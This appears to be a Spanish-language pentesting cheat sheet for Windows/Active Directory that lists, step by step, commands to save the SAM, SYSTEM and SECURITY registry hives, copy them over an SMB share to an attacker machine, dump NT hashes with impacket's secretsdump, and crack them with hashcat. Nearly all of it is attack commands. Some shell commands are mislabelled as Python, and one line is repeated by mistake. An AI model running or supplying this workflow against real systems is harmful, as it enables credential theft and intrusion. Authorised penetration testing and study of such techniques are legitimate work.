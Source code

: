 # Directorio Activo
## Descripción
Pentesting Directorio Activo , comandos

### SAM - SYSTEM - SECURITY
Hay tres colmenas de registro que podemos copiar si tenemos acceso de administrador local en el destino; cada uno tendrá un propósito específico cuando lleguemos a desechar y descifrar los hashes. Lo siguiente se hace desde el equipo windows con permisos de administrador en una consola cmd.

```python
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```
Lo siguientes es pasarlo a nuestro equipo victima.
```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
move sam.save \\IPTUYA\share
move system.save \\IPTUYA\share
move security.save \\IPTUYA\share
```
Ahora toca volcar los hashes
Lo siguientes es pasarlo a nuestro equipo victima.
```python
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
Por último, deberemos de romper la clave o con john the ripper o con hashcat tomando en cuenta que son contraseñas NT
```python
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```
```python
sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
